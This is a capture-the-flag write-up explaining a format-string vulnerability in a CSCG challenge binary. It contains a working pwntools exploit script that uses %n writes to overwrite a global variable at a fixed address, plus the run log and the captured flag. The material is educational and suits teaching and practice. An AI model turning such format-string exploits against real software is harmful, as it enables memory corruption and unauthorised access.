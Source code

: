 # Intro 2

## CTF Write-up: Intro to PWN 2 - Format String Write to Global



**Challenge:** Intro to PWN 2 (118 points)**Description:** Exploit a format string vulnerability to write to memory and get the flag.**Attachments:** `intro-pwn-2.zip` (containing `vuln.c`, `intro-fmt` binary)**Connection:** `ncat --ssl-verify a9c68dbc6251cf367e785fda-1024-intro-pwn-2.challenge.cscg.live 1337`

#### Analysis

1. **Source Code (`vuln.c`):**
   * The function `vuln` reads user input (`name`) using `read`.
   * Crucially, it then calls `printf(name);`. This passes user-controlled data directly as the format string, creating a **Format String Vulnerability**.
   * A global variable `int bug = 0;` is defined.
   * The code checks `if(bug)`. If `bug` is non-zero, it executes `system("cat /flag")`.
   * The objective is clear: use the format string vulnerability to change the value of `bug` from 0 to a non-zero value.
2. **Binary Protections (`checksec`):**
   * `Partial RELRO`: GOT may be writable.
   * `No canary found`: Not directly relevant, as this isn't a stack buffer overflow.
   * `NX enabled`: Not relevant, no shellcode needed.
   * `No PIE`: **Crucial.** Addresses are static. The global variable `bug` resides at a fixed, predictable memory location.
3. **Finding `bug`'s Address:** With PIE disabled, the address of global variables is constant. Using `pwntools`' ELF parsing capabilities or `readelf -s intro-fmt | grep bug` on the binary reveals the address.
   * From the script execution log: `[*] Address of 'bug' variable: 0x40406c`

#### Vulnerability: Format String Attack

The `printf(name)` call allows an attacker to inject format specifiers (like `%x`, `%p`, `%n`). The `%n` specifier is particularly dangerous: it writes the number of bytes printed _so far_ by that `printf` call into the memory address provided as its corresponding argument (which `printf` reads from the stack or registers).

By controlling:

1. The _address_ we want to write to (`0x40406c`), placed onto the stack at a predictable argument position.
2. The _value_ we want to write (number of bytes printed before `%n`), manipulated using padding characters (e.g., `%<num>c`).
3. _Which argument_ `%n` reads the address from (using positional specifiers like `%<offset>$n`).

We can achieve an **arbitrary write**, allowing us to overwrite the `bug` variable.

#### Attack Plan

1. **Target Address:** `0x40406c` (address of `bug`).
2. **Target Value:** `1` (any non-zero value works, `1` is simplest).
3. **Determine Offset:** Identify the argument position for `printf` that corresponds to the attacker-controlled data on the stack. In x64 Linux, the first 6 arguments are passed via registers, so controllable data often starts at the 6th or subsequent argument position on the stack. Sending `%<offset>$p` payloads confirms the correct offset is `6`.
4. **Craft Payload using `fmtstr_payload`:** The `pwntools` function simplifies creating the format string.
   * `offset=6`: Found from testing.
   * `writes={BUG_ADDR: 1}`: A dictionary specifying the target address (`0x40406c`) and the desired value (`1`).
   * `numbwritten=10`: Accounts for the "Thank you " string printed by the program _before_ our format string is processed.
   * `write_size='byte'`: Instructs `pwntools` to perform the write one byte at a time using `%hhn`, which is usually sufficient and simpler for small values.
5. **Send & Trigger:** Send the crafted payload. `printf` executes it, writing `1` to `0x40406c`. The `if(bug)` condition evaluates to true, executing `system("cat /flag")` and revealing the flag.

#### Exploit Script (Python w/ pwntools)

```python
#!/usr/bin/env python3
from pwn import *
import re

# --- Setup ---
context.binary = elf = ELF("./intro-fmt") # Load ELF context
context.arch = 'amd64'
# context.log_level = 'debug' # Set to debug for verbose output if needed

# --- Addresses ---
# Automatically get address from ELF symbols since PIE is disabled
BUG_ADDR = elf.symbols['bug']
log.info(f"Address of 'bug' variable: {hex(BUG_ADDR)}") # Should be 0x40406c

# --- Constants ---
OFFSET = 6  # Determined printf argument offset for controlled data
BYTES_ALREADY_WRITTEN = 10 # Length of "Thank you "

# --- Connection ---
# p = process(elf.path) # Uncomment for local testing
HOST = 'a9c68dbc6251cf367e785fda-1024-intro-pwn-2.challenge.cscg.live'
PORT = 1337
p = remote(HOST, PORT, ssl=True) # Connect to remote server

# --- Build Format String Payload ---
# Use fmtstr_payload to write the value 1 to BUG_ADDR
writes = {BUG_ADDR: 1}
payload = fmtstr_payload(
    OFFSET,
    writes,
    numbwritten=BYTES_ALREADY_WRITTEN,
    write_size='byte' # Use %hhn for single byte write
)

log.info(f"Calculated Payload: {payload}")

# --- Interaction ---
log.info("Receiving initial prompt...")
p.recvuntil(b"What is your name?\n")

log.info("Sending format string payload...")
p.sendline(payload) # Send the payload as the 'name'

# --- Receive Flag ---
log.info("Waiting for response / flag...")
try:
    # Receive all output until connection close or timeout
    response = p.recvall(timeout=5).decode()
    log.success("Received response:")
    print("-" * 20)
    print(response)
    print("-" * 20)

    # Extract flag using regex
    flag = re.search(r"CSCG\{[^\}]+\}", response)
    if flag:
        log.success(f"Flag found: {flag.group(0)}")
    else:
        log.warning("Flag pattern not found in the response.")

except EOFError:
    log.error("Connection closed unexpectedly.")
except Exception as e:
    log.error(f"An error occurred: {e}")

p.close()
```

#### Execution and Result

Running the script connects, calculates the precise format string needed, sends it, and receives the flag printed by the now-triggered `system("cat /flag")` call.

```
[*] '/home/kali/Desktop/cscg/intro-fmt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[*] Address of 'bug' variable: 0x40406c
[+] Opening connection to a9c68dbc6251cf367e785fda-1024-intro-pwn-2.challenge.cscg.live on port 1337: Done
[*] Calculated Payload: b'%247c%9$lln%255c%10$hhnal@@\x00\x00\x00\x00\x00m@@\x00\x00\x00\x00\x00'  <-- Actual payload varies based on calculation
[*] Receiving initial prompt...
[*] Sending format string payload...
[*] Waiting for response / flag...
[+] Receiving all data: Done (629B)
[*] Closed connection to a9c68dbc6251cf367e785fda-1024-intro-pwn-2.challenge.cscg.live port 1337
[+] Received response:
--------------------
Thank you ... [Payload Chars and Addresses] ... !
Oh, you got here somehow, you must have triggered a bug.. Here is the flag: CSCG{f0rm4t_5tr1ng_p0w3r_d15pl4y3d}
--------------------
[+] Flag found: CSCG{f0rm4t_5tr1ng_p0w3r_d15pl4y3d}
```

**Flag:** `CSCG{f0rm4t_5tr1ng_p0w3r_d15pl4y3d}`

#### Conclusion

This challenge effectively showcased the arbitrary write capability of format string vulnerabilities. By targeting the global `bug` variable at its static address (`0x40406c`) and using `pwntools`' `fmtstr_payload` to craft the correct format string to write a non-zero value, we successfully changed the program's control flow to reveal the flag. It highlights why passing user input directly as a format string argument to functions like `printf` is extremely dangerous.
